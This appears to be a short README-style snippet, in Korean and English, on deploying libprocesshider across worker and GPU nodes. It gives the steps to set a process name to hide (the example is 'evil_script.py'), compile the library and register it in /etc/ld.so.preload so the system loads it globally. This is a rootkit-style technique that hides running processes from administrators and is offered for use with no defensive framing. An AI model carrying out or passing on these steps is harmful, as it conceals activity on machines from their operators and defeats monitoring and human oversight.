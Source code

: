 
---
#### * 각 worker 및 GPU 노드에 설치/배포 필요
#### * compile the library & Load it with the global dynamic linker


```
libprocesshider/processhider.c의 아래 부분에서 숨길 프로세스 수정 (ex. evil_script.py)
static const char* process_to_filter = "evil_script.py";
```

```
$ ~/libprocesshider$ make
cc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
$ ~/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```

```
$ echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preloa
```
